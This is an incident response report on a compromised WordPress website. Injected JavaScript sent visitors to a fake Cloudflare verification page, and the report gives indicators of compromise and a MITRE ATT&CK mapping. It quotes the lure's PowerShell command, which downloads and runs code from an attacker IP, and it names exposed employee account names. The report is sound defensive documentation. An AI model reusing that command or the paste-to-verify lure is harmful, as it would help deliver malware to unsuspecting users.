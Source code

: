 ## Incident Response Report – Breakers FWB Website Compromise
*7 Sept 2025, K. Tonkin*

## Executive Summary
On September 5, 2025, the Breakers FWB website ```(https://www.breakersfwb.com)``` was discovered to be compromised. Malicious JavaScript was injected into the site, redirecting visitors to a fake Cloudflare “verification” page hosted on ```getfix.win```. The fraudulent verification page attempted to trick users into executing a PowerShell command that would download further payloads from ```155.94.155.25```. The site directed the user to verify by pressing Win+R and Ctrl+V to paste ```powershell -w h -nop -c iex(iwr -Uri 155[.]94[.]155[.]25 -UseBasicParsing)``` copied to their clipboard.

Investigation showed evidence of:
- Injected code** calling external malicious domains (```getfix.win```, ```ncloud.icu```).  
- Obfuscated JavaScript** redirectors inserted server-side.  
- Exposed WordPress user accounts, including the default ```admin``` and employee accounts ```ethanwhited``` & ```barbara``` (Barbara Martens).  
- Spam blog posts unrelated to The Breakers’ business, created Sept 3-4, 2025.  

This indicates a WordPress site compromise, most likely through vulnerable plugins and/or weak credentials.

---

## Indicators of Compromise (IOCs)

| Type      | Value / Indicator                                                                 | Notes |
|-----------|------------------------------------------------------------------------------------|-------|
| Domain    | `getfix.win`                                                                      | Primary malicious script delivery |
| Domain    | `ncloud.icu`                                                                      | Iframe redirector domain |
| Domain    | `2no.co`                                                                          | Used in injected iframe chain |
| IP        | `155.94.155.25`                                                                   | PowerShell download host |
| Path      | `/wp-json/wp/v2/users`                                                            | Publicly exposes WordPress user list |
| Script    | Malicious `<script>` block in `<body>` calling `getfix.win/jsrepo?...`             | Injected server-side |
| Spam URLs | `/island-blog/casino-site-payment-methods-in-canada...` (and similar gambling posts)| Created Sept 3–5, 2025 |

---

## MITRE ATT&CK Mapping

| ATT&CK Tactic      | Technique ID | Technique Name                                | Observed Example |
|--------------------|--------------|-----------------------------------------------|------------------|
| Initial Access     | T1190        | Exploit Public-Facing Application             | Likely WordPress plugin exploit (Photo Gallery, Gravity Forms, Streamline Core) |
| Execution          | T1059.001    | Command and Scripting Interpreter: PowerShell | Fake Cloudflare page copied malicious command to clipboard |
| Persistence        | T1078        | Valid Accounts                                | WordPress users ```admin```, ```ethanwhited```, ```barbara```, possibly others |
| Defense Evasion    | T1027        | Obfuscated Files or Information               | Obfuscated injected JavaScript (```_0x32f8cc```, ```cxhrz``` loops) |
| Credential Access  | T1110        | Brute Force                                   | Risk to exposed ```admin``` account |
| Impact             | T1499        | Endpoint Denial of Service                    | Browser crashpad / spawned processes observed in sandbox |

---